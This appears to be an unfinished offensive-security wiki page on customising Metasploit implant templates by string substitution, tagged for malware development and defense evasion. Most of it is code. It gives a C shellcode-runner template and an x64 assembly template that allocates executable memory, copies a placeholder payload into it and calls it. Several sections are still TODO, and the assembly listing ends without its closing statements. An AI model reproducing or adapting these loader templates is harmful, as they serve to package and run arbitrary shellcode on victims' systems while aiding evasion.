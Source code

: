 # String Substitution

Search Tag(s): #helpers #malware-development #defense-evasion

TODO: Fill this info

There is a limitation with this method. It uses a few supported payload formats (refer to the [[Metasploit Implant Templates References|table reference]]).

TODO: Write steps to compile EXE and copy in the templates file destination

## 01 - EXE

- C template source code

```c
#include <stdio.h>

#define SCSIZE 4096
char payload[SCSIZE] = "PAYLOAD:";

char comment[512] = "";

int main(int argc, char **argv) {
	(*(void (*)()) payload)();
	return(0);
}
```

- Assembly template

```nasm
; Author: Stephen Fewer (stephen_fewer[at]harmonysecurity[dot]com)
; Architecture: x64
;
; Assemble and link with the following command:
; "C:\Program Files\Microsoft Visual Studio 9.0\VC\bin\x86_amd64\ml64" template_x64_windows.asm /link /subsystem:windows /defaultlib:"C:\Program Files\Microsoft SDKs\Windows\v6.0A\Lib\x64\kernel32.lib" /entry:main 

extrn ExitProcess : proc
extrn VirtualAlloc : proc

.code

	main proc 
		sub rsp, 40        ;
		mov r9, 40h        ; 
		mov r8, 3000h      ; 
		mov rdx, 4096      ; 
		xor rcx, rcx       ; 
		call VirtualAlloc  ; lpPayload = VirtualAlloc( NULL, 4096, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE );
		mov rcx, 4096      ;
		mov rsi, payload   ;
		mov rdi, rax       ;
		rep movsb          ; memcpy( lpPayload, payload, 4096 );
		call rax           ; lpPayload();
		xor rcx, rcx       ;
		call ExitProcess   ; ExitProcess( 0 );
	main endp
	
	payload proc
		A byte 'PAYLOAD:'
		B db 4096-8 dup ( 0 )
```